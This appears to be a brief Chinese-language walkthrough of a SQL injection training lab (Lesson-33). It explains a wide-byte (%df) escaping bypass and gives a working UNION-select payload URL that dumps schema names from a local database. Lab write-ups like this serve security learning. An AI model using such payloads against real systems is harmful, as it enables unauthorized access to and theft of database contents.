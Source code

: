 # Lesson-33
```
明注-,-宽字节绕过
```

可以和上题使用相同的Payload , 可以dump出数据
```
http://127.0.0.1/Less-33/?id=0%df%27union%20select%201,group_concat(schema_name),1%20from%20information_schema.schemata--+
```
